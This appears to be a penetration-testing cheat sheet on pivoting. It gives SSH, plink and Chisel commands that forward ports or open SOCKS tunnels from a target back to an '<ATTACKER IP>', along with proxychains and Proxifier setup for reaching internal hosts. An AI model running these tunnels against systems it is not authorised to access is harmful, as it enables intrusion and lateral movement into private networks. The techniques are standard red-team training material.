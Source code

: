 ## Remote port forwarding
- Forward local port of target back to our kali

#### SSH
- Will connect local port back to our kali. 
- Usefull for example when database server is running on localhost on target and you want to connect to it on your kali.
```
ssh -N -R <BIND_ADRESS>:<PORT>:127.0.0.1:<TARGET PORT> <USERNAME>@<ATTACKER IP>
```

#### Plink.exe
```
plink.exe <USER>@<IP> -R <ATTACKER PORT>:<TARGET IP>:<TARGET PORT>
```

## Sockx proxy
### Configuring proxychains
#### SSH
```
sudo ssh -N -D 127.0.0.1:9000 <username>@<IP>
```

#### SSH over hop
```
ssh -J <USER>@<FIRST HOP IP> -D 127.0.0.1:9000 <USER>@<SECOND IP>
```

#### Chisel
- https://github.com/jpillora/chisel
```
/opt/chisel/chisel server -p 443 --socks5 --reverse
./chisel.exe client <ATTACKER IP>:443 R:socks
```

### Using proxychains
#### Proxychains
- For linux
- Change proxychains config `socks5 <IP> <PORT> <USER> <PASS>`
```
sudo vim /etc/proxychains.conf
proxychains <COMMAND>
```

#### Proxifier
- https://www.proxifier.com/
- For windows
- Open Proxifier, go to Profile -> Proxy Servers and Add a new proxy entry, which will point at the IP address and Port of your Cobalt Strike SOCKS proxy.
- Next, go to Profile -> Proxification Rules. This is where you can add rules that tell Proxifier when and where to proxy specific applications. Multiple applications can be added to the same rule, but in this example, I'm creating a single rule for adexplorer64.exe (part of the Sysinternals Suite).
- Target hosts fill in the target internal network range with the action ```proxy socks <TARGET>```
- NOTE: You will also need to add a static host entry in `C:\Windows\System32\drivers\etc\hosts` file: `<DC IP> <DOMAIN>`. You can enable DNS lookups through Proxifier, but that will cause DNS leaks from your computer into the target environment.
